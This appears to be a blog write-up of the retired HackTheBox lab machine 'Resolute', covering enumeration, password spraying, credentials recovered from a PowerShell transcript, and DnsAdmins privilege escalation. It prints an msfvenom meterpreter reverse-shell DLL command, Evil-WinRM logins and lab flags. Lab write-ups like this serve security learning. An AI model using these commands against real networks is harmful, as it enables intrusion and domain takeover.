








[HackTheBox]
htb{Resolute}
A not so old Machine retired just a few days (if you are reading this around 06/02/20). Another Windows OS based machine, Windows machines are my least favorite ones :(
But here’s my write up for Resolute!Please note for the sake of keeping the post short I’ve trimmed a lot of stuff from my original experience with the machine.

root@kek:~# ping resolute.htb
PING resolute.htb (10.10.10.169) 56(84) bytes of data.
64 bytes from resolute.htb (10.10.10.169): icmp_seq=1 ttl=127 time=97.10 ms
64 bytes from resolute.htb (10.10.10.169): icmp_seq=2 ttl=127 time=126 ms
64 bytes from resolute.htb (10.10.10.169): icmp_seq=3 ttl=127 time=115 ms| root@kek:~/htb/resolute# nmap -sV -sC -sC -T4 Resolute.htb 10.10.10.169Nmap scan report for resolute.htb (10.10.10.169)
Host is up (0.095s latency).
Not shown: 989 closed ports
PORT STATE SERVICE VERSION
53/tcp open domain?
| fingerprint-strings:
| DNSVersionBindReqTCP:
| version
|_ bind
88/tcp open kerberos-sec Microsoft Windows Kerberos
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp open microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp open tcpwrappedLet’s keep gathering more information, lately on windows boxes I like to run the enum4linux.
Which is a tool that as it almost says on the name enumerates, this is the linux variant of the .exe tool sort off.. more info here.
root@kek:~/htb/resolute# enum4linux -a resolute.htb
==========================
| Target Information |
==========================
Target ……….. resolute.htb
RID Range …….. 500–550,1000–1050
Username ……… ‘’
Password ……… ‘’
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, noneIt will load a bunch of information but we’ll focus on this part, also a bunch of user we could scrape. A warm welcome :)

So we got this information account marko and descritpion show that the password was set to Welcome123! Ssoooo.. what we have so far, bunch of ports and what it seems a user and possible password and possible domain info megabank.local
Let’s use the ol’ windows bestie Evil WinRm with the user and credentials just to find out that it does not work proobs he already changed it. We still have a few users we scraped from the enumeration.
We could either do a bruteforce or try manually one by one hoping the default password or someone has the same one. We could also automate this “Bruteforcing”,Anyways after a while we could login as Melanie using password “Welcome123!” CoffcoffTriedalluserswiththispasswordcoffcoff.

*Evil-WinRM* PS C:\Users\melanie\Desktop> dir -force
Directory: C:\Users\melanie\Desktop
Mode LastWriteTime Length Name
— — — — — — — — — — — — — —
-ar — — 12/3/2019 7:33 AM 32 user.txt
*Evil-WinRM* PS C:\Users\melanie\Desktop> type user.txt
0c3be45fc
Alrightys keeping on looking on what we have access. Navigating through we’ll see a dir called PSTranscripts which is hidden and inside another dir too.

Inside of this hidden path we’ll find a file called “PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt” Looking at the inside we’ll see indeed a transcript but this has something interesting in it, let’s look it closely.

Looking closely we’ll find this line:
>> ParameterBinding(Invoke-Expression): name=”Command”; value=”cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123! Interesting enough we can see two things what looks like a user and password and the \\fs01\backups dir. samee thing let’s give a try to the user and password we just found out.
root@kek:~/htb/resolute# evil-winrm -i 10.10.10.169 -u ryan -p Serv3r4Admin4cc123!
Sooo we were able to log in as our Ryan boii. After a few minutes (coffcoffhourscoffcoff) I was able to find a method to escalate, if we take a look a our guy ryan groups we can see he’s part of MEGABANK\DnsAdmins and looking/googling we can learn that we could jump from DNSadmin to DC admin :P
Awesome resources: Feature, not bug: DNSAdmin to DC compromise in one line From DnsAdmins to SYSTEM to Domain Compromise
Now, let’s build up the .dll
root@kek:~/htb/resolute# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.13 LPORT=4444 -f dll > letmein.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 5120 bytesAnd let’s upload that .dll but seems as soon we upload it it will be blown away..
This time I’ll use another method, PSEXEC with mfsconsole (There was another machine this trick helped in getting root easy peasy); So firing up msf we should have something like this:

meterpreter > shell
Process 2116 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
© 2016 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
whoami
nt authority\system
Directory of C:\Users\Administrator\Desktop
12/04/2019 06:18 AM DIR .
12/04/2019 06:18 AM DIR.
12/03/2019 08:32 AM 32 root.txt
1 File(s) 32 bytes
2 Dir(s) 30,969,835,520 bytes free
| C:\Users\Administrator\Desktop>type root.txt
type root.txt
e1d94876a506So this time we got another easy root however I am sure there are plenty other ways to root this machine, I faced so many issues with impacket that at the end had to take this PSEXEC route with msfconsole which automates creating payload, loading it up and opening a meterpreter session.
Once more if you read this, thanks for your time. If you have any question or would like to talk anything related HTB feel free to chime in :)Hack the planet and stay safe! x)